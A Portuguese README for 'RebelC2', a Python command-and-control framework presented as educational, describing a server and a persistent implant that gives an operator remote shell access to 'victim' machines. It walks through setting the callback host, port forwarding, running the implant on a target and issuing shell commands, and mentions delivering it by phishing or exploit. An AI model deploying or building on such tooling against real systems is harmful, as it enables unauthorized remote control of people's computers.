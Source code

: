 # RebelC2 - Um Framework de Comando e Controle em Python

RebelC2 é um framework de Command and Control (C2) leve, escrito em Python, projetado para fins educacionais. Ele permite que um operador gerencie remotamente múltiplos sistemas comprometidos (implantes) através de uma interface de linha de comando simples.

## Funcionalidades

-   **Servidor C2 Multithread:** Capaz de gerenciar múltiplas conexões de implantes simultaneamente.
-   **Console Interativo:** Interface de linha de comando para listar sessões e interagir com elas.
-   **Implante Persistente:** O implante tenta se reconectar ao servidor C2 se a conexão for perdida.
-   **Execução Remota de Comandos:** Envia comandos do shell para o sistema comprometido e recebe a saída.
-   **Código Simples:** Fácil de entender, modificar e expandir.

## Estrutura

-   `server.py`: O script do servidor que o operador executa para escutar por conexões.
-   `implant.py`: O script do cliente (implante) que é executado na máquina da vítima.

## Configuração

### 1. Servidor C2

O servidor foi projetado para ser executado em qualquer máquina Linux ou Windows com Python 3.

-   **IP e Porta:** Por padrão, o servidor (`server.py`) escuta em `0.0.0.0` na porta `4444`. Isso significa que ele aceitará conexões de qualquer interface de rede. Você pode alterar essas configurações no final do arquivo:
    ```python
    if __name__ == "__main__":
        HOST = '0.0.0.0'  # Mantenha 0.0.0.0 para escutar em todas as interfaces
        PORT = 4444       # Altere a porta se necessário
        server = C2Server(HOST, PORT)
        server.start()
    ```

### 2. Implante

O implante precisa saber o endereço IP e a porta do servidor C2 para se conectar.

-   **IP e Porta:** Abra o arquivo `implant.py` e altere as variáveis `C2_HOST` e `C2_PORT` para corresponderem ao endereço IP **público ou da rede local** do seu servidor C2.
    ```python
    if __name__ == "__main__":
        C2_HOST = 'SEU_IP_AQUI'  # IMPORTANTE: Altere para o IP do seu servidor C2
        C2_PORT = 4444
        implant = Implant(C2_HOST, C2_PORT)
        implant.run()
    ```
    -   **Para testes locais:** Use `127.0.0.1`.
    -   **Para testes em rede local:** Use o IP privado do servidor (ex: `192.168.1.10`).
    -   **Para acesso externo:** Use o IP público do servidor e configure o redirecionamento de portas (port forwarding) em seu roteador.

## Como Usar

1.  **Inicie o Servidor C2:**
    Execute o script do servidor em sua máquina. Ele começará a escutar por conexões.
    ```bash
    python3 server.py
    ```

2.  **Execute o Implante na Vítima:**
    Transfira e execute o script `implant.py` na máquina alvo.
    ```bash
    python3 implant.py
    ```
    *Nota: Em um cenário real, este implante seria ofuscado e entregue através de um vetor de ataque (ex: phishing, exploit).*

3.  **Gerencie as Sessões:**
    Quando um implante se conectar, você verá uma notificação no console do C2.

    -   **Listar sessões ativas:**
        Digite `list` para ver todos os implantes conectados.
        ```
        C2> list

        --- Sessões Ativas ---
          ID: 0 | Endereço: 127.0.0.1:54321
        ---------------------
        ```

    -   **Selecionar uma sessão para interagir:**
        Use o comando `select` seguido do ID da sessão.
        ```
        C2> select 0
        ```

    -   **Enviar Comandos:**
        Uma vez dentro de uma sessão, você pode executar qualquer comando do shell do sistema operacional alvo (`ls`, `dir`, `whoami`, `ipconfig`, etc.).
        ```
        [+] Interagindo com a sessão 0 (127.0.0.1)
        Digite 'quit' ou 'exit' para retornar ao menu principal.

        shell@127.0.0.1> whoami
        desktop-user\john
        
        shell@127.0.0.1> ls
        documento.txt
        fotos
        videos
        ```

    -   **Sair da Sessão:**
        Digite `quit` ou `exit` para retornar ao console principal do C2.

    -   **Encerrar o Servidor:**
        No console principal, digite `exit` para fechar o servidor C2 de forma limpa.

## Aviso Legal

Este projeto foi criado estritamente para fins educacionais e de pesquisa em segurança da informação. O uso indevido deste software para atacar alvos sem consentimento prévio e mútuo é ilegal. O autor não se responsabiliza por qualquer dano ou uso indevido deste material.
